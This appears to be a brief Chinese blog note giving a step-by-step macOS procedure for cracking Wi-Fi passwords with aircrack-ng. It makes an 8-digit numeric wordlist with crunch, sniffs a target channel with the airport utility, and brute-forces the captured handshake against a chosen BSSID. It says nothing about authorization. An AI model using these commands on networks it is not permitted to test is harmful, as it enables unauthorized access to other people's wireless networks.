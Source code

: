 ```yaml
---
title: aircrack-ng
toc: true
date: 2021-09-24 19:29:18
tags:
categories:黑
---
```


```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport

brew install aircrack-ng

brew install crunch			# optional

crunch 8 8 0123456789 -o dic.txt			#生成字典

sudo airport -s

sudo airport 网卡名 sniff 目标信道		#一般情况下，网卡名=en0

aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff******.cap
```



## 参考资料

> - [**Mac上使用aircrack-ng破解Wi-Fi密码**](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)

